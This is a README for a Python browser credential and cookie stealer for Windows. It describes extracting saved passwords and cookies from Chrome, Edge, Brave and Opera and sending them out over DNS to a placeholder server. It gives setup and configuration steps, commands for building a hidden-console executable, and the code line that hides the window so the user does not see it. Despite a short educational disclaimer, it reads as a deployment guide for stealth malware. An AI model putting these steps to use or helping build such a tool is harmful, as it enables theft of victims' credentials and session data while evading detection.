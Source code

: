 

### 📘 README.md

```markdown
# 🔐 Browser Credential & Cookie Extractor (Stealth Mode)

## 📌 Description

This Python script is designed to extract saved **credentials** (usernames and passwords) and **cookies** from various Chromium-based browsers installed on a Windows machine. It then **exfiltrates** the data by encoding it and sending it through **DNS queries** to a specified server.

> ❗ This script is for **educational and ethical research purposes only**. Unauthorized use or distribution of this tool may be illegal.

---

## 🧠 Features

- ✅ Extracts passwords from:
  - Google Chrome
  - Microsoft Edge
  - Brave Browser
  - Opera

- ✅ Extracts cookies from the same browsers (excluding Firefox)

- 🔐 Uses AES-GCM encryption for exfiltration
- 📡 Sends data over DNS to evade firewalls/network monitoring
- 🕵️‍♂️ Runs in **stealth mode** (hides the console window)
- 🧬 Compatible with Windows (uses DPAPI and Windows APIs)

---

## ⚙️ Requirements

- Python 3.8+
- Windows OS
- Install required modules:

```bash
pip install pycryptodome browser-cookie3 dnspython pywin32
```

---

## 🚀 How to Use

1. **Configure Your DNS Exfiltration Server**  
   Replace this line in the script with your domain:
   ```python
   subdomain = f"{chunk}.yourdnsserver.com"
   ```

2. **Run the script manually**  
   You can run the script via terminal or IDE:
   ```bash
   python script.py
   ```

---

## 🧳 Convert to Executable (.exe)

You can compile the script into a Windows `.exe` to make it portable and run it without showing any console window:

### 1. Install PyInstaller
```bash
pip install pyinstaller
```

### 2. Build Stealth Executable
```bash
pyinstaller --noconsole --onefile script.py
```

- `--noconsole`: Ensures the script runs in the background (no black window).
- `--onefile`: Generates a single `.exe` file.

The resulting executable will be located in the `dist/` folder.

---

## 🕶️ Stealth Behavior

The script uses:
```python
ctypes.windll.user32.ShowWindow(ctypes.windll.kernel32.GetConsoleWindow(), 0)
```
to **hide the console window** during runtime if executed via script, making it harder for users to detect.

---

## ❗ Legal Disclaimer

This tool is intended for **educational, penetration testing, and malware analysis training** only. Using this script to access or collect personal data without explicit permission is **illegal and unethical**.

You are responsible for your own actions.

